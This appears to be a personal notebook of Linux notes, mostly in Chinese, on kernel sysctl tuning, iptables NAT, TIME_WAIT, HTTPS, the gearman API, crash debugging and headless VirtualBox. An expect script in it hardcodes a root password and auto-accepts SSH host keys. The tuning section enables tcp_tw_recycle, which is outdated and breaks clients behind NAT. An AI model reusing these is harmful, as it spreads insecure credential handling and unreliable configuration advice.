      max size of message (bytes) = 65536         // MSGMAX
      default max size of queue (bytes) = 65536    // MSGMNB
3）通过编辑 /etc/sysctl.conf 文件来修改您必须调整的内核参数。下列各行是该文件中应包含的内容的示例：
# 具有 16GB RAM 的计算机的示例：
kernel.shmmni=4096
kernel.shmmax=17179869184
kernel.shmall=8388608

#kernel.sem=<SEMMSL> <SEMMNS> <SEMOPM> <SEMMNI>
kernel.sem=250 256000 32 4096
kernel.msgmni=16384
kernel.msgmax=65536
kernel.msgmnb=65536


4）运行 sysctl 时附带 -p 参数

 
2.内核网络参数


进入SYN包的最大请求队列.默认1024.对重负载服务器,可调整

net.ipv4.tcp_max_syn_backlog = 65536

 

进入包的最大设备队列.默认是300,对重负载服务器而言,该值太低,可调整

net.core.netdev_max_backlog =  32768

 

listen()的默认参数,挂起请求的最大数量.默认是128.对繁忙的服务器,增加该值有助于网络性能.可调整

net.core.somaxconn = 32768

 

表示发送套接字缓冲区大小的缺省值（以字节为单位）

net.core.wmem_default = 8388608        

 

表示接收套接字缓冲区大小的缺省值（以字节为单位）

net.core.rmem_default = 8388608

 

最大socket读buffer,可参考的优化值：873200

net.core.rmem_max = 16777216

 

最大socket写buffer,可参考的优化值：873200

net.core.wmem_max = 16777216  

 

时间戳可以避免序列号的卷绕。一个1Gbps的链路肯定会遇到以前用过的序列号。时间戳能够让内核接受这种"异常"的数据包。这里需要将其关掉。

net.ipv4.tcp_timestamps = 0

 

为了打开对端的连接，内核需要发送一个SYN并附带一个回应前面一个SYN的ACK.也就是所谓三次握手中的第二次#握手。这个设置决定了内核放弃连接之前发送SYN+ACK包的数量

net.ipv4.tcp_synack_retries = 2

 

在内核放弃建立连接之前发送SYN包的数量

net.ipv4.tcp_syn_retries = 2

 

表示开启TCP连接中TIME-WAIT sockets的快速回收，默认为0,表示关闭

net.ipv4.tcp_tw_recycle = 1

 
net.ipv4.tcp_tw_len = 1

 

表示开启重用。允许将TIME-WAIT sockets重新用于新的TCP连接，默认为0,表示关闭；

net.ipv4.tcp_tw_reuse = 1

 

net.ipv4.tcp_mem = 94500000 915000000 927000000

#net.ipv4.tcp_mem[0]:低于此值，TCP没有内存压力。   

#net.ipv4.tcp_mem[1]:在此值下，进入内存压力阶段。   

#net.ipv4.tcp_mem[2]:高于此值，TCP拒绝分配socket

 

系统中最多有多少个TCP套接字不被关联到任何一个用户文件句柄上。如果超过这个数字，连接将即刻被复位并打#印出警告信息。这个限制仅仅是为了防止简单的DoS攻击，不能过分依靠它或者人为地减小这个值，更应该增加这个值（如果增加了内存之后）。

net.ipv4.tcp_max_orphans = 3276800

 

#net.ipv4.tcp_fin_timeout = 30

#net.ipv4.tcp_keepalive_time = 120

 

表示用于向外连接的端口范围。缺省情况下很小

net.ipv4.ip_local_port_range = 1024  65535

 

代表机器跟踪连接的数目

net.ipv4.ip_conntrack_max=655360

net.ipv4.netfilter.ip_conntrack_max=655360

net.nf_conntrack_max=655360

net.netfilter.nf_conntrack_max=655360
* iptables NAT配置
** SNAT：源地址转换
目标地址不变，重新改写源地址，并在本机建立NAT表项，当数据返回时，根据NAT表将目的地址数据改写为数据发送出去时候的源地址，并发送给主机
目前大多都是解决内网用户用同一个公网地址上网的情况

** DNAT：目标地址转换

和SNAT相反，源地址不变，重新修改目标地址，在本机建立NAT表项，当数据返回时，根据NAT表将源地址修改为数据发送过来时的目标地址，并发给远程主机
在DNAT的基础上，可以根据请求数据包的端口做PNAT（端口转换，也称为端口映射），可以更句请求数据包不同的端口改写不同的目标地址，从而发送给不同的主机
这在用一个公网地址做不同服务时用的比较多，而且相对来说，用NAT的方式可以隐藏后端服务器的真实地址，更加的安全

完成nat的实现，数据要经过prerouting—forword--postrouting这3个链

** SNAT的数据流向过程

首先进入prerouting，发现不是本网段的地址，而后开始查找路由表（查找路由的过程在prerouting和forword之间），
于是经过forword链进行转发，在通过postrouting时进行NAT转换。
在这个流程中，NAT转换的步骤在postrouting链上实现，之所以不再prerouting上做nat是因为数据包在进来之前，还不知道是本网段地址还是外网地址
 
** DNAT的数据流向过程

在DNAT中，NAT要在prerouting链上做。之前提到过，在数据进入主机后，路由选择过程是在prerouting和forword之间的，
所以应该先做地址转换之后，再进行路由选择，而后经过forword，最后从postrouting出去

** SNAT 实验

*在做nat之前，要先把路由功能打开，不然数据包连forword都过不了*

[root@localhost ~]# echo 1 > /proc/sys/net/ipv4/ip_forward

添加nat表项
[root@localhost ~]# iptables -t nat -A POSTROUTING -s 172.16.93.0/24  -j SNAT --to-source 10.0.0.1
表示在postrouting链上，将源地址为172.16.93.0/24网段的数据包的源地址都转换为10.0.0.1

** 删除
   iptables -L -t nat --line-numbers
   使用--line-numbers显示chain-num

   iptables -t nat -D POSTROUTING 1 
   删除chain-num为1的规则
** DNAT
 
在DNAT中，要把规则定义在PREROUTING链中

iptables -t nat -A PREROUTING -d 10.0.0.1 -j DNAT –-to-destination 172.16.93.1
此条规则将请求IP为10.0.0.1的数据包转发到后端172.16.93.1主机上

iptables -t nat -A PREROUTING -d 10.0.0.1 -p tcp –-dport 80 -j DNAT –-to-destination 172.16.93.1
此条规则将请求IP为10.0.0.1并且端口为80的数据包转发到后端的172.16.93.1主机上，通过定义不同的端口，就可以实现PNAT，将同一个IP不同的端口请求转发到后端不同的主机

iptables -t nat -A PREROUTING -d 10.0.0.1 -p tcp –-dport 80 -j DNAT –-to-destination 172.16.93.1:8080
此条规则在上条规则的基础上，发往后端的数据包的目标端口改为8080，在后端主机的web服务器上使用8080端口接收访问， 这样能更好的保护后端主机

** 使用SNAT上网
公司上外网需要进入windows域，而且有各种限制。
所以同事就采用了SNAT在一台有外网IP的机器上设置上网代理


其中172.16.132.189是可以直接通过路由器上网的IP
我们在eth0:1上设置虚IP 192.168.0.86

linux-19:~ # ifconfig
eth0      Link encap:Ethernet  HWaddr 00:1E:4F:37:40:B3  
          inet addr:172.16.132.189  Bcast:172.16.132.189  Mask:255.255.255.0
          inet6 addr: fe80::21e:4fff:fe37:40b3/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:673852 errors:0 dropped:4 overruns:0 frame:0
          TX packets:532089 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:84927257 (80.9 Mb)  TX bytes:290095285 (276.6 Mb)
          Interrupt:16 Memory:f8000000-f8012800 

eth0:1    Link encap:Ethernet  HWaddr 00:1E:4F:37:40:B3  
          inet addr:192.168.0.86  Bcast:192.168.0.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          Interrupt:16 Memory:f8000000-f8012800 

eth1      Link encap:Ethernet  HWaddr 00:1E:4F:37:40:B5  
          inet addr:10.0.64.19  Bcast:10.0.64.255  Mask:255.255.255.0
          inet6 addr: fe80::21e:4fff:fe37:40b5/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:48566313 errors:0 dropped:215 overruns:0 frame:0
          TX packets:46589089 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:19627285431 (18718.0 Mb)  TX bytes:13694263195 (13059.8 Mb)
          Interrupt:16 Memory:f4000000-f4012800 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:26472624 errors:0 dropped:0 overruns:0 frame:0
          TX packets:26472624 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:5729228159 (5463.8 Mb)  TX bytes:5729228159 (5463.8 Mb)

代理通过路由器172.16.132.3上网
linux-19:~ # route
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
default         172.16.132.3    0.0.0.0         UG    0      0        0 eth0
10.0.64.0       *               255.255.255.0   U     0      0        0 eth1
loopback        *               255.0.0.0       U     0      0        0 lo
172.16.132.0    *               255.255.255.0   U     0      0        0 eth0
192.168.0.0     *               255.255.255.0   U     0      0        0

配置SNAT的结果

10.0.64.0/24是一个内部服务器网络，仍然需要访问，
所以第一条策略单独配置了。
linux-19:~ # iptables -L -n -t nat
...
Chain POSTROUTING (policy ACCEPT)
target     prot opt source               destination         
SNAT       all  --  0.0.0.0/0            10.0.0.0/8          to:10.0.64.19 
SNAT       all  --  192.168.0.0/24       0.0.0.0/0           to:172.16.132.189 
SNAT       all  --  192.168.86.0/24      0.0.0.0/0           to:172.16.132.189 
SNAT       all  --  192.168.100.0/24     0.0.0.0/0           to:172.16.132.189


最后，我使用的机器将IP设置为192.168.0.109，网关设置为192.168.0.86
现在就可以自由的上网了。

* TIME_WAIT状态是否占用文件描述符

Each socket in TIME_WAIT consumes some memory in the kernel, usually somewhat less than an ESTABLISHED socket yet still significant. A sufficiently large number could exhaust kernel memory, or at least degrade performance because that memory could be used for other purposes. TIME_WAIT sockets do not hold open file descriptors (assuming they have been closed properly), so you should not need to worry about a "too many open files" error.

The socket also ties up that particular src/dst IP address and port so it cannot be reused for the duration of the TIME_WAIT interval. (This is the intended purpose of the TIME_WAIT state.) Tying up the port is not usually an issue unless you need to reconnect a with the same port pair. Most often one side will use an ephemeral port, with only one side anchored to a well known port. However, a very large number of TIME_WAIT sockets can exhaust the ephemeral port space if you are repeatedly and frequently connecting between the same two IP addresses. Note this only affects this particular IP address pair, and will not affect establishment of connections with other hosts.

编写测试程序链接建立一个TCP链接，然后断开该链接，如此反复。
不断创建TIME_WAIT状态的socket。
#+begin_src c
#include <sys/socket.h>
#include <netinet/in.h>
#include <netdb.h>
#include <stdio.h>
#include <strings.h>

int main(int argc,char *args[])
{
    int socket_descriptor;
    int port = 8080;
    struct sockaddr_in pin;
    int count = 0;
    while(1) {
        pin.sin_family = AF_INET;
        pin.sin_addr.s_addr = inet_addr("10.0.64.18");
        pin.sin_port = htons(port);
        bzero(&(pin.sin_zero), 8);

        socket_descriptor = socket(AF_INET, SOCK_STREAM, 0);
        if(connect(socket_descriptor, (void *)&pin, sizeof(pin))==-1)
        {
            perror("connect");
        }
        close(socket_descriptor);
        count++;
        if(count%1000 == 1) {
            sleep(1);
        }
    }
    return 0;
}
#+end_src

然后查看打开文件句柄数
cat /proc/sys/fs/file-nr
(file-nr含义见Documentation/filesystems/proc.txt)
代码见file_table.c: int proc_nr_files(...)
发现file-nr并不增长


将生成TIME_WAIT频率加快。
connect就是返回错误信息
connect: Cannot assign requested address

由于占用的端口号超过了61000-32768
net.ipv4.ip_local_port_range = 32768	61000


TIME_WAIT不占用file-nr的原因:
在于用户态程序调用了close()
sys_close()调用，释放了file描述符，
sys_close()->filp_close()->fput()
* ifconfig看不到ip命令设置的地址
  ip addr show
* strace 看libxx.so加载的路径
  ./network_monitor: error while loading shared libraries: libutils.so: cannot open shared object file: No such file or directory

  strace ./network_monitor
* HTTPS的工作原理
HTTPS在传输数据之前需要客户端（浏览器）与服务端（网站）之间进行一次握手，在握手过程中将确立双方加密传输数据的密码信息。
TLS/SSL协议不仅仅是一套加密传输的协议，更是一件经过艺术家精心设计的艺术品，TLS/SSL中使用了非对称加密，对称加密以及HASH算法。握手过程的简单描述如下：
1.浏览器将自己支持的一套加密规则发送给网站。
2.网站从中选出一组加密算法与HASH算法，并将自己的身份信息以证书的形式发回给浏览器。证书里面包含了网站地址，加密公钥，以及证书的颁发机构等信息。
3.获得网站证书之后浏览器要做以下工作：
a) 验证证书的合法性（颁发证书的机构是否合法，证书中包含的网站地址是否与正在访问的地址一致等），如果证书受信任，则浏览器栏里面会显示一个小锁头，否则会给出证书不受信的提示。
b) 如果证书受信任，或者是用户接受了不受信的证书，浏览器会生成一串随机数的密码，并用证书中提供的公钥加密。
c) 使用约定好的HASH计算握手消息，并使用生成的随机数对消息进行加密，最后将之前生成的所有信息发送给网站。
4.网站接收浏览器发来的数据之后要做以下的操作：
a) 使用自己的私钥将信息解密取出密码，使用密码解密浏览器发来的握手消息，并验证HASH是否与浏览器发来的一致。
b) 使用密码加密一段握手消息，发送给浏览器。
5.浏览器解密并计算握手消息的HASH，如果与服务端发来的HASH一致，此时握手过程结束，之后所有的通信数据将由之前浏览器生成的随机密码并利用对称加密算法进行加密。
* python matplotlib画图
* gearman
Client API

client初始化&析构

gearman_client_st *gearman_client_create(gearman_client_st *client)

void gearman_client_free(gearman_client_st *client)

gearman_return_t gearman_client_add_server(gearman_client_st *client, const char *host, in_port_t port);

gearman_return_t gearman_client_add_servers(gearman_client_st *client, const char *servers); (一次添加多个gearman job-server)


同步操作

void * gearman_client_do(gearman_client_st *client, const char *function_name, const char *unique, const void *workload, size_t workload_size, size_t *result_size, gearman_return_t *ret_ptr);

其中：

i. unique: 的作用是client添加job给worker的时候的一个唯一标识，可选，默认是NULL

ii. workload & workload_size指代执行任务的详细参数及其大小

iii. result_size [out]，指代返回数据的大小

iv. ret_ptr [out], 指代gearman的返回status，以下是官方对于返回status的一些说明：

In the case of GEARMAN_WORK_DATA, GEARMAN_WORK_WARNING, or GEARMAN_WORK_STATUS, the caller should take any actions to handle the event and then call this function again. This may happen multiple times until a GEARMAN_WORK_ERROR, GEARMAN_WORK_FAIL, or GEARMAN_SUCCESS (work complete) is returned. For GEARMAN_WORK_DATA or GEARMAN_WORK_WARNING, the result_size will be set to the intermediate data chunk being returned and an allocated data buffer will be returned. For GEARMAN_WORK_STATUS, the caller can use gearman_client_do_status() to get the current tasks status.

总而言之，只有GEARMAN_WORK_ERROR/GEARMAN_WORK_FAIL/GEARMAN_SUCCESS才是三个最终的返回结果，其他的只是临时中间结果，需要进一步调用接受结果的函数(感觉中间结果只有在异步调用过程中才会出现)

v. 输出是返回数据的起始地址，一旦用户用完之后，必须free，否则会出现内存泄露。

void gearman_set_timeout(gearman_universal_st *gearman, int timeout);

设置gearman_client_do多长时调用无返回则超时时间


异步callback操作

Gearman通过使用gearman_client_add_task()来望gearman_client_st中添加task，通过gearman_client_set_created_fn() / gearman_client_set_complete_fn()
等来注册callback function，通过gearman_client_run_tasks()来运行gearman_client_st中的task。


异步background操作

系统在background运行job，client定期获得job运行结果，如果成功则返回，反之则继续等待。

gearman_return_t gearman_client_do_background(gearman_client_st *client, 
            const char *function_name, const char *unique, const void *workload, size_t workload_size, char *job_handle);

i. job_handle [out]: 一个job的标识符

ii. 输出：返回状态

 gearman_return_t gearman_client_job_status(gearman_client_st *client, 
                                            gearman_job_handle_t job_handle,
                                            bool *is_known, 
                                            bool * is_running, 
                                            uint32_t *numerator,
                                            uint32_t *denominator);
 用户获得在background执行的job的状态

i. is_known [out]: Optional parameter to store the known status in

ii. is_running [out]: Optional parameter to store the running status in

iii. numerator [out]: Optional parameter to store the numerator in

iv. denominator [out]: Optional parameter to store the denominator in

PS: 好像background操作不怎么好使，不知道如何通过获得background的运行结果，这个是我一直困惑的


gearman_client_st的一些属性

gearman_client_st一共有以下3种运行属性：

i. GEARMAN_CLIENT_NON_BLOCKING: client运行在non-blocking mode

ii. GEARMAN_CLIENT_FREE_TASKS: 在task执行完成之后，自动的释放task

iii. GEARMAN_CLIENT_UNBUFFERED_RESULT: Allow the client to read data in chunks rather than have the library buffer the entire data result and pass that back。

可以通过函数gearman_client_add_options() / gearman_client_remove_options() / gearman_client_has_option() 等进行属性添加/删除/判断等


Worker API

/**
 * Initialize a worker structure. Always check the return value even if passing
 * in a pre-allocated structure. Some other initialization may have failed. It
 * is not required to memset() a structure before providing it.
 *
 * @param[in] worker Caller allocated structure, or NULL to allocate one.
 * @return On success, a pointer to the (possibly allocated) structure. On
 *  failure this will be NULL.
 */
GEARMAN_API
gearman_worker_st *gearman_worker_create(gearman_worker_st *worker);


/**
 * Free resources used by a worker structure.
 *
 * @param[in] worker Structure previously initialized with
 *  gearman_worker_create() or gearman_worker_clone().
 */
GEARMAN_API
void gearman_worker_free(gearman_worker_st *worker);


/**
 * Add a job server to a worker. This goes into a list of servers that can be
 * used to run tasks. No socket I/O happens here, it is just added to a list.
 *
 * @param[in] worker Structure previously initialized with
 *  gearman_worker_create() or gearman_worker_clone().
 * @param[in] host Hostname or IP address (IPv4 or IPv6) of the server to add.
 * @param[in] port Port of the server to add.
 * @return Standard gearman return value.
 */
GEARMAN_API
gearman_return_t gearman_worker_add_server(gearman_worker_st *worker,
                                           const char *host, in_port_t port);


/**
 * Add a list of job servers to a worker. The format for the server list is:
 * SERVER[:PORT][,SERVER[:PORT]]...
 * Some examples are:
 * 10.0.0.1,10.0.0.2,10.0.0.3
 * localhost LIBGEARMAN_BITFIELD234,jobserver2.domain.com:7003,10.0.0.3
 *
 * @param[in] worker Structure previously initialized with
 *  gearman_worker_create() or gearman_worker_clone().
 * @param[in] servers Server list described above.
 * @return Standard gearman return value.
 */
GEARMAN_API
gearman_return_t gearman_worker_add_servers(gearman_worker_st *worker,
                                            const char *servers);
                                            
/**
 * Register and add callback function for worker. To remove functions that have
 * been added, call gearman_worker_unregister() or
 * gearman_worker_unregister_all().
 *
 * @param[in] worker Structure previously initialized with
 *  gearman_worker_create() or gearman_worker_clone().
 * @param[in] function_name Function name to register.
 * @param[in] timeout Optional timeout (in seconds) that specifies the maximum
 *  time a job should. This is enforced on the job server. A value of 0 means
 *  an infinite time.
 * @param[in] function Function to run when there is a job ready.
 * @param[in] context Argument to pass into the callback function.
 * @return Standard gearman return value.
 */
GEARMAN_API
gearman_return_t gearman_worker_add_function(gearman_worker_st *worker,
                                             const char *function_name,
                                             uint32_t timeout,
                                             gearman_worker_fn *function,
                                             void *context);


/**
 * Wait for a job and call the appropriate callback function when it gets one.
 *
 * @param[in] worker Structure previously initialized with
 *  gearman_worker_create() or gearman_worker_clone().
 * @return Standard gearman return value.
 */
GEARMAN_API
gearman_return_t gearman_worker_work(gearman_worker_st *worker);


/**
 * See gearman_universal_set_timeout() for details.
 */
GEARMAN_API
void gearman_worker_set_timeout(gearman_worker_st *worker, int timeout);
* Linux下程序无core文件定位程序崩溃的方法

Linux平台下运行程序，程序出错core掉，设置了ulimit -c会产生core文件，根据生成的core文件和程序很容易定位程序哪里出了问题。如果在生产环境，可能会存在以下几种情况不能生成core文件
    忘记设置ulimit -c
    生成的core文件太大，磁盘不能写入，或者磁盘空间已满
    误删除
    其它

如果出现了不能产生core文件的情况，可以通过以下两种方法定位：

1.addr2line方法

如果我们在编译的时候加了-g，可以直接用addr2line直接定位到程序哪一行出错了

备注: 08048484是程序core掉时的EIP值，通过系统日志获取形式如下

Sep  3 10:15:46 localhost kernel: a.out[19254]: segfault at 0 ip 08048484 sp bfa86ff0 error 6 in a.out[8048000+1000]

命令:
   addr2line -e a.out 08048484

运行结果:
   /home/woody/demo/testcore.cpp:6

2.如果在编译的时候没有加上-g选项，addr2line就不起作用了，这时可以通过反汇编可执行程序定位
命令：
   objdump -d a.out > a.asm
打开生成的汇编文件a.asm
* 自动登录ssh
  由于最近每天都使用ssh登录到服务器上调试程序，
  看N多SSH窗口，每次都输入密码，累。
  于是使用expect,写脚本如下：
#+begin_example
#!/usr/bin/expect -f
set ip 10.0.64.18
set password root
set timeout 10
spawn ssh root@$ip
expect {
    "*yes/no" { send "yes\r"; exp_continue}
    "*password:" { send "$password\r" }
}
expect "#*"
#进入代码目录
send "cd /home/yxf/Compile/code/HSS\r"
#交互模式,用户会停留在远程服务器上面.
interact
#+end_example
* svn 批量添加啊
    svn st | awk '{if ( $1 == "?") { print $2}}' | xargs svn add  
* gnome mount sftp
  在同步本地源码和ssh服务器上的代码时，
  可以使用gnome, file->connect to server
  将ssh的文件mount到本地，使用beycond compare进行对比
* linux svn图形工具
  rabbitvcs
* How to create and start VirtualBox VM without GUI
** Prerequisite for starting VirtualBox VM without GUI

First, you need to install VirtualBox Extension Pack. The Extension Pack is needed to run a VRDE remote desktop server used to access headless VMs. Its binary is available for free. To download and install VirtualBox Extension Pack:
$ wget http://download.virtualbox.org/virtualbox/4.2.12/Oracle_VM_VirtualBox_Extension_Pack-4.2.12-84980.vbox-extpack
$ sudo VBoxManage extpack install ./Oracle_VM_VirtualBox_Extension_Pack-4.2.12-84980.vbox-extpack

Verify that the Extension Pack is successfully installed, by using the following command.
$ VBoxManage list extpacks

Extension Packs: 1
Pack no. 0:   Oracle VM VirtualBox Extension Pack
Version:      4.2.12
Revision:     84980
Edition:      
Description:  USB 2.0 Host Controller, VirtualBox RDP, PXE ROM with E1000 support.
VRDE Module:  VBoxVRDP
Usable:       true 
Why unusable: 

** Create a VirtualBox VM from the command line

I assume that the VirtualBox' VM directory is located in "~/VirtualBox\ VMs".

First create a VM. The name of the VM is "testvm" in this example.
$ VBoxManage createvm --name "testvm" --register

Specify the hardware configurations of the VM (e.g., Ubuntu OS type, 1024MB memory, bridged networking, DVD booting).
$ VBoxManage modifyvm "testvm" --memory 1024 --acpi on --boot1 dvd --nic1 bridged --bridgeadapter1 eth0 --ostype Ubuntu

Create a disk image (with size of 10000 MB). Optionally, you can specify disk image format by using "--format [VDI|VMDK|VHD]" option. Without this option, VDI image format will be used by default.
$ VBoxManage createvdi --filename ~/VirtualBox\ VMs/testvm/testvm-disk01.vdi --size 10000

Add an IDE controller to the VM.
$ VBoxManage storagectl "testvm" --name "IDE Controller" --add ide

Attach the previously created disk image as well as CD/DVD drive to the IDE controller. Ubuntu installation ISO image (found in /iso/ubuntu-12.04.1-server-i386.iso) is then inserted to the CD/DVD drive.
$ VBoxManage storageattach "testvm" --storagectl "IDE Controller" --port 0 --device 0 --type hdd --medium ~/VirtualBox\ VMs/testvm/testvm-disk01.vdi
$ VBoxManage storageattach "testvm" --storagectl "IDE Controller" --port 1 --device 0 --type dvddrive --medium /iso/ubuntu-12.04.1-server-i386.iso

** Start VirtualBox VM from the command line

Once a new VM is created, you can start the VM headless (i.e., without VirtualBox console GUI) as follows.
$ VBoxHeadless --startvm "testvm" &

The above command will launch the VM, as well as VRDE remote desktop server. The remote desktop server is needed to access the headless VM's console.

By default, the VRDE server is listening on TCP port 3389. If you want to change the default port number, use "-e" option as follows.
$ VBoxHeadless --startvm "testvm" -e "TCP/Ports=4444" &

If you don't need remote desktop support, launch a VM with "--vrde off" option.
$ VBoxHeadless --startvm "testvm" --vrde off &

** Connect to headless VirtualBox VM via remote desktop

Once a VM is launched with remote desktop support, you can access the VM's console via any remote desktop client (e.g., rdesktop).

To install rdesktop on Ubuntu or Debian:
$ sudo apt-get install rdesktop

To install rdesktop on CentOS, RHEL or Fedora, configure Repoforge on your system, and then run the following.
$ sudo yum install rdesktop

To access a headless VM on a remote host machine, run the following.
$ rdesktop -a 16 <IP_address_host_machine>

If you use a custom port number for a remote desktop server, run the following instead.
$ rdesktop -a 16 <IP_address_host_machine:port_number>

Once rdesktop is successfully connected to the VM via remote desktop, you will see the initial installation screen.
* nginx用光local port
2014/04/24 12:22:53 [crit] 1120#0: *17024380925 connect() to 192.168.2.150:8088 failed (99: Cannot assign requested address) while connecting to upstream, client: 123.14.145.99, server: , request: "POST /aaa/app_signon HTTP/1.1", upstream: "http://192.168.2.150:8088/aaaopenapi?action=aaa&cmd=app_signon", host: "api.hismarttv.com:8080"

需要调整net.ipv4.ip_local_port_range参数
* recv() hang 程序
  socket没有设置recv timeout
